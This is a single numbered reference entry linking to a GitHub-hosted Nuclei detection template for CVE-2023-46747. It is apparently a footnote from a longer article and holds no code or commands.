\[6\] [https://github.com/projectdiscovery/nuclei-templates/blob/e41934f4bfe7d9cb4a622a966e6c786af10ef480/http/cves/2023/CVE-2023-46747.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/e41934f4bfe7d9cb4a622a966e6c786af10ef480/http/cves/2023/CVE-2023-46747.yaml)
